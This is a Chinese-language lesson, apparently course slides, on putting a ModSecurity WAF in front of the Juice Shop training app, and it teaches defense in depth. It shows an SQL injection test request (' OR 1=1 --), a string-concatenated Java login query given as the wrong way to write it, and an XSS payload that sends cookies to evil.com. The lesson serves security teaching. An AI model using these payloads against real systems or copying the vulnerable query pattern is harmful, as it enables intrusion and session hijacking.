



# 🛡️ Lesson 02

## SQL 注入正在发生——部署第一道防线

---

## 回顾：上节课的结构

```text
攻击者
   │
   ▼
Juice Shop
```

上节课我们发现了问题：应用裸奔，没有任何防护, 攻击者的 HTTP 请求直接到达应用。

---

## 新架构：WAF 上线

```
       ☠️ 攻击者
         │
         ▼ http://localhost:80
┌──────────────────┐
│       WAF        │  ← 新防线：检测并拦截恶意请求, OWASP CRS 规则集已启用
└────────┬─────────┘
         │ 内部网络
         ▼
┌──────────────────┐
│  Juice Shop      │  ← 被保护的应用
└──────────────────┘
```

---

## WAF 是什么

WAF: Web Application Firewall



WAF 处理: 

- URL
- HTTP 参数
- Cookie
- 请求参数是否包含 SQL Injection 特征
- 请求参数是否包含 XSS 的攻击特征

工作原理：

```
攻击者请求 → Nginx 接收 → ModSecurity 检测 → 匹配规则？
  ├── 是 → 返回 403，记录审计日志
  └── 否 → 转发到后端 Juice Shop
```

---

## 从业务角度理解 WAF

WAF 解决了什么问题 ？

### SQL Injection 

> **SQL Injection**: 通过在用户输入中插入恶意 SQL 代码，使后端数据库执行非预期的命令。

**本实验的测试：**
```bash
curl "http://localhost:80/rest/products/search?q=%27%20OR%201%3D1%20--"
```

WAF 把 HTTP 请求解析出来以后，可以看到：

```text
Method:
GET

URL:
/rest/products/search

Parameter:
q=' OR 1=1 --
```

SQL Injection 的典型特征:

```sql
' OR 1=1 --
```

拼接的核心是：

1. payload 里的 `'` 先闭合掉程序原有的引号
2. `OR 1=1` 构造恒真条件
3. `--` 把后面残余的 SQL 注释掉

比如:

```sql
SELECT * FROM products WHERE name LIKE '%<用户输入>%'

-- sql 注入之后的效果

SELECT * FROM products WHERE name LIKE '%' OR 1=1 --%'
```

### 造成 SQL 注入的原因

**错误写法**

```java
// 用户输入直接来自请求参数
String username = request.getParameter("username");
String password = request.getParameter("password");

// 危险：把输入拼进 SQL 文本
String sql = "SELECT * FROM users WHERE username = '" + username
           + "' AND password = '" + password + "'";

Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(sql);
```

**正确写法**

```java
String username = request.getParameter("username");
String password = request.getParameter("password");

// 安全：? 是占位符，SQL 文本在编译时已经固定
String sql = "SELECT * FROM users WHERE username = ? AND password = ?";

PreparedStatement pstmt = connection.prepareStatement(sql);
pstmt.setString(1, username);   // 输入以参数值传入
pstmt.setString(2, password);
ResultSet rs = pstmt.executeQuery();
```

- SQL 语句的结构（`SELECT ... WHERE username = ?`）在预编译阶段就确定下来
- `?` 占位符由数据库驱动作为**参数值**单独传递, 用户输入被当作普通字符串数据 (放进 `username` 字段的值里，**无法改变语句结构**)

这是防御 SQL 注入的首选和标准做法

### XSS

> **跨站脚本 (XSS)** — 将恶意 JavaScript 注入到网页中，在其他用户浏览器中执行。

**示例：**
```html
评论输入: <script>document.location='http://evil.com/?c='+document.cookie</script>
效果：窃取用户 Session Cookie → 会话劫持
```

**Note:**

WAF 由于基于已知攻击模式进行匹配, 所以，规则库必须及时更新。

---

## 实验环节

实验

---

## 从 OSI 7 层模型角度理解 WAF

WAF 工作在 OSI 第 7 层，也就是 Application Layer。

### OSI 7 层模型



### 7-layer: Application Layer

这里就出现了我们今天真正关心的东西：HTTP

比如我们访问：

```text
http://localhost:80
```

实际上发生了很多层次的事情, 可以简单理解成：

```text
Application
HTTP
   ↓
Transport
TCP : 80
   ↓
Network
IP
   ↓
Data Link
Ethernet
   ↓
Physical
```

所以当 WAF 说：

> “我要检查这个 HTTP 请求里面有没有 SQL Injection。”

它必须能够理解：

- HTTP
- URL
- Header
- Cookie
- Parameter
- Body

因此 WAF 主要工作在：**OSI Layer 7，也就是应用层**

---

## 从部署角度理解 WAF

### DMZ



通过各种网络设备，实现的逻辑概念

- Firewall
- VLAN
- Router
- Network ACL
- 网络接口

## 纵深防御 ( Defense in Depth )

串接安全设备


```text
                    Attacker
                       │
                       ▼
                ┌─────────────┐
                │  Firewall   │
                │   L3 / L4   │
                └──────┬──────┘
                       │
                       ▼
                ┌─────────────┐
                │     WAF     │
                │     L7      │
                └──────┬──────┘
                       │
                       ▼
                ┌─────────────┐
                │ Application │
                └──────┬──────┘
                       │
                 Network / Host
                       │
                       ▼
                ┌─────────────┐
                │ NIDS / HIDS │
                └──────┬──────┘
                       │
                       ▼
                     SIEM
                       │
                       ▼
                   Dashboard
```

---

## CISO 观察记录

| 检查项 | 状态 | 备注 |
|--------|------|------|
| WAF 部署 | <span class="success">✅</span> | Nginx + ModSecurity |
| 正常流量 | <span class="success">✅</span> | 业务不受影响 |
| SQL 注入 | <span class="success">🛡️</span> | 403 拦截 |
| 端口扫描 | <span class="danger">❌</span> | WAF 只防护 HTTP |
| 主机监控 | <span class="danger">❌</span> | 文件篡改不知道 |

> **WAF 是重要的，但不能是唯一防线。纵深防御意味着多层检测。**

---

## 下一课

→ WAF 上线了，但攻击者很聪明——HTTP 层被挡住后，他们会进行**端口扫描、网络层探测**……

**这些 WAF 看不到。** 下一课将部署 **NIDS（网络入侵检测系统）Suricata**。
